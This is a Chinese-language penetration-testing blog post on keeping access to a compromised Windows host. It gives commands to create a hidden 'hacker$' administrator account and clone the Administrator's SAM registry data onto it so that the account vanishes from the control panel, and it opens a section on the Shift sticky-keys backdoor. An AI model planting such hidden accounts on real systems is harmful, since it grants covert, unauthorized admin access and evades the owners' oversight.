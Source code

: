 title: 权限维持
author: bmth
tags:
  - 权限维持
categories:
  - 内网
top_img: 'https://img-blog.csdnimg.cn/40317c4a3cc74dadb6e25389bfd8b5bc.png'
cover: 'https://img-blog.csdnimg.cn/40317c4a3cc74dadb6e25389bfd8b5bc.png'
date: 2022-11-07 14:49:00
---
![](https://img-blog.csdnimg.cn/40317c4a3cc74dadb6e25389bfd8b5bc.png)

## 权限维持
做了权限维持就如同特洛伊木马一样，可以直接进入内部进行攻击

当我们获得了administrator管理员权限后，需要创建一个后门来维持住我们所获得的权限，否则一旦目标密码更改或者漏洞被修补，那么就会导致我们对服务器权限的丢失

### Windows权限维持
[内网渗透测试：域内权限维持思路总结](https://www.freebuf.com/articles/web/252963.html)
[域渗透 - 权限维持之 SID History ](http://t3ngyu.leanote.com/post/7697c6e55644)

#### 影子账户
通常在拿到服务器后会创建一个带`$`符号的账户，因为在常规cmd下是无法查看到的
```
net user hacker$ 123456 /add
net localgroup administrators hacker$ /add
```
![](https://img-blog.csdnimg.cn/bf9d7692d9eb41a0b020a57472dee694.png)
但是在控制面板的账户管理界面能直接看到
![](https://img-blog.csdnimg.cn/b315381d29a74b31889ef53b28632ae8.png)

接下来就是创建影子用户了
打开注册表，找到`HKEY_LOCAL_MACHINE\SAM\SAM`，单机右建，选择"权限"，把Administrator用户的权限，设置成"完全控制"权限，然后关闭注册表编辑器，再次打开即可
![](https://img-blog.csdnimg.cn/eaf0390c2d994e568c561a390a89d82d.png)
在`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`，看到我们的`hacker$`
点击`hacker$`能在右侧看到类型为0x3ec，所以我们在User中找到`3EC`结尾的账户，这就是`hacker$`的账户
而administrator的是0x1f4，所以Administrator对应的账户就是1F4结尾的
![](https://img-blog.csdnimg.cn/c086fdffb953408888f7fe871420c371.png)
将1F4下F项的值复制到3EC下F项里面，替换原有数据，然后从注册表中右键导出`hacker$`以及3EC，接下来删除用户
```
net user hacker$ /del
```
最后，将刚才导出的两个后缀为.reg的注册表项导入注册表中
![](https://img-blog.csdnimg.cn/15bca9776eb746bd857ee94c53d5d2d1.png)
去控制面板查看，发现已经看不到账户了，但用户还是存在的

#### Shift 粘滞键后门
如果你在电脑上连按五次shift键，你就会发现电脑屏幕上弹出了一个叫做粘滞键的程序
![](https://img-blog.csdnimg.cn/27d6b887ddc64d64a4c22ae4130ebfd8.png)
